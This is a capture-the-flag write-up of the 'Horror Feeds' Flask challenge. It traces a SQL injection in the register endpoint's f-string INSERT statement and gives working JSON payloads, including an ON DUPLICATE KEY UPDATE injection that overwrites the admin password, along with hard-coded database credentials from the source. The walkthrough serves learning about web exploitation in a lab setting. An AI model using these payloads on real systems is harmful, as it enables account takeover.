



# Horror Feeds

Difficulty:: #easy 

## Introduction

The box is a flask web app with a register and login options. The register option has a SQL injection in the insert statement that allow to the threat actor to update the existing users passwords. In this case update admin password to log in like admin and steal the flag.

## Target data
- `Spawn Docker`: `167.71.138.188:30928` 
- `Source Code`: `web_horror_feeds.zip`


## Challenge Description
*An unknown entity has taken over every screen worldwide and is broadcasting this haunted feed that introduces paranormal activity to random internet-accessible CCTV devices. Could you take down this streaming service?*

## Enumeration

```
http://167.71.138.188:30928/
```


We can see a login view and a register options, but first that all download the source code and identify a flask app, with two  [`blueprints`](https://flask.palletsprojects.com/en/2.2.x/api/#flask.Blueprint) (that is a way to organize the endpoints), group them according to how ther functions are related. So here all endpoinst will be in `web_horror_feeds/challenge/application/blueprints/routes.py`.

```shell
magor$ tree web_horror_feeds
web_horror_feeds
├── Dockerfile
├── app.py
├── build-docker.sh
├── challenge
│   ├── application
│   │   ├── blueprints
│   │   │   └── routes.py
│   │   ├── config.py
│   │   ├── database.py
│   │   ├── main.py
│   │   ├── static
│   │   │   ├── css
│   │   │   │   └── ...SNIP...
│   │   │   ├── images
│   │   │   │   ├── d.png
│   │   │   │   └── ...SNIP...
│   │   │   ├── js
│   │   │   │   ├── dashboard.js
│   │   │   │   ├── ...SNIP...
│   │   │   │   └── login.js
│   │   │   └── videos
│   │   │       ├── cam1.mp4
│   │   │       └── ...SNIP...
│   │   ├── templates
│   │   │   ├── dashboard.html
│   │   │   └── login.html
│   │   └── util.py
│   └── run.py
├── config
│   └── supervisord.conf
├── entrypoint.sh
└── flag.txt
```

There are two collections of endpoints. One to the `web` app, and other to the `api`.  in summarize we have
1. `web`.
   - `/` : Login view
   - `/dashboard`: Require credentials and render `dashboarad.html` and ... the flag :o
   - `/logout`
2. `api`:
   - `/api/login`: 
   - `/api/register`

```python
# web_horror_feeds/challenge/application/blueprints/routes.py
from flask import Blueprint, render_template, request, session, current_app, redirect
from application.database import login, register
from application.util import response, is_authenticated, token_verify

web = Blueprint('web', __name__)
api = Blueprint('api', __name__)

@web.route('/')
def sign_in():
    return render_template('login.html')

@web.route('/dashboard')
@is_authenticated
def dashboard():
    current_user = token_verify(session.get('auth'))
    return render_template('dashboard.html', flag=current_app.config['FLAG'], user=current_user.get('username'))
# ...SNIP...
```


The `/dashboard` endpoint take my attention because a render parameter is `flag` that comes from `current_app`. if i check the `web_horror_feeds/challenge/application/config.py` file I can see that it reads the `/flag.txt`:

```python
# web_horror_feeds/challenge/application/config.py
# ...SNIP...
class Config(object):
    SECRET_KEY = generate(50)
    MYSQL_HOST = 'localhost'
    MYSQL_USER = 'user'
    MYSQL_PASSWORD = 'M@k3l@R!d3s$'
    MYSQL_DB = 'horror_feeds'
    FLAG = open('/flag.txt').read()
# ..SNIP..
```

So to know under what conditions the flag is render into the `dashboard.html` I chect that file `web_horror_feeds/challenge/application/templates/dashboard.html` and found the only is render if the user is `admin`.

```html
web_horror_feeds/challenge/application/templates/dashboard.html
...SNIP...
            
						...SNIP...
                        </th>
                        <td>5</td>
                        <td>192.251.68.6</td>
                        <td>NV360</td>
                        <td>{{flag}}</td>
                        <td></td>
                        <td></td>
                        <td>admin</td>
                        <td>80</td>
                        <td>21</td>
                        <td>23</td>
	          ...SNIP...

            
...SNIP...
```


So this challenge involves pwn the admin account. To do that we need review the register and login to understand how the accounts are handled:

### register

In the `/api/register` endpoint we can check that ther is a call to `database.register()` function. open the `web_horror_feeds/challenge/application/database.py` file:

```python
# web_horror_feeds/challenge/application/database.py
def register(username, password):
   ➊ exists = query_db('SELECT * FROM users WHERE username = %s', (username,))
   
    if exists:
        return False
    
    hashed = generate_password_hash(password)

  ➋  query_db(f'INSERT INTO users (username, password) VALUES ("{username}", "{hashed}")')
    mysql.connection.commit()

    return True
```

First there is a verification ➊ that check if the username already exists and after that insert a new record ➋. But note that the insert query is differente to the  select query ➊, instead of use the parameteres format, write explicity the username and `hashed` value directly into the statement. so here there is a [SQL incection -SQLi]()

But first check how the database is setup, in `entrypoint.sh` initializate the database and insert the `admin:$2a$12$BHVtAvXDP1xgjkGEoeqRTu2y4mycnpd6If0j/WbP0PCjwW4CKdq6G`  credentiasl. so we cant insert a new `admin` account. If the password were weak, maybe we could bruteforce or apply a dictionary attack, but that would be so easy for the challenge. So instead we need to exploit the SQL injection.

```bash
mysql -u root << EOF
CREATE DATABASE horror_feeds;

CREATE TABLE horror_feeds.users (
    id INTEGER PRIMARY KEY AUTO_INCREMENT,
    username varchar(255) NOT NULL UNIQUE,
    password varchar(255) NOT NULL
);

INSERT INTO horror_feeds.users (username, password) VALUES ('admin', '$2a$12$BHVtAvXDP1xgjkGEoeqRTu2y4mycnpd6If0j/WbP0PCjwW4CKdq6G');

CREATE USER 'user'@'localhost' IDENTIFIED BY 'M@k3l@R!d3s$';
GRANT SELECT, INSERT, UPDATE ON horror_feeds.users TO 'user'@'localhost';

FLUSH PRIVILEGES;
EOF
```


## Foothold


First I want to test that the SQL injection its apply correctly, so I am goint to try to insert a new record only with the username data ignoring the hashed:

```python
query_db(f'INSERT INTO users (username, password) VALUES ("{username}", "{hashed}")')
```

Test  username payload , if work i could connect wiht `magor:test` 

> In order to work I need insert a valid hash so i import the `generate_password_hash()` function and create the hash

```python
>>> hash = generate_password_hash('test')
>>> hash
'$2b$12$sW0HQKQth.YGe.01RuzsfurFSpL/h72rGBYBSWaowaAIr79slzy0W'
```

So, the payload to username would be:
```sql
kil", "$2b$12$sW0HQKQth.YGe.01RuzsfurFSpL/h72rGBYBSWaowaAIr79slzy0W") -- -
```

```json
{"username":"kil\", \"$2b$12$sW0HQKQth.YGe.01RuzsfurFSpL/h72rGBYBSWaowaAIr79slzy0W\") -- -","password":"kil"}
```

I test the payload intereceptin the register request and use the Repeater BurpSuit community edition and it works!



> Note that we ingnore the password parameter using the comment `-- -` at the end of username.

Try to test if bacth querys also work

```sql
ki", "$2b$12$sW0HQKQth.YGe.01RuzsfurFSpL/h72rGBYBSWaowaAIr79slzy0W"); UPDATE users  
SET password = '$2b$12$sW0HQKQth.YGe.01RuzsfurFSpL/h72rGBYBSWaowaAIr79slzy0W'
WHERE username = 'admin'; commit -- -
```

But does not work, so we can't execute multiples statements, that limit us to only modify the INSERT statement so i search [can update inside a insert](https://www.google.com/search?client=firefox-b-d&q=can+update+inside+a+insert) and found  [Insert into a MySQL table or update if exists](https://stackoverflow.com/questions/4205181/insert-into-a-mysql-table-or-update-if-exists)  It refers me to the [Insert on duplicate documentation](https://dev.mysql.com/doc/refman/8.0/en/insert-on-duplicate.html)

So we can update is duplicated if is found inside a insert statement: I modify the payload to update the admin credentiasl to `admin:test`

In the JSON POST request i write the payload:
```json
{"username":"admin\", \"$2b$12$sW0HQKQth.YGe.01RuzsfurFSpL/h72rGBYBSWaowaAIr79slzy0W\")ON DUPLICATE KEY UPDATE username='admin', password = '$2b$12$sW0HQKQth.YGe.01RuzsfurFSpL/h72rGBYBSWaowaAIr79slzy0W' -- -","password":"junk"}
```



And login with `admin:test` credentials and get the flag:
```
http://167.71.138.188:30928/dashboard
```
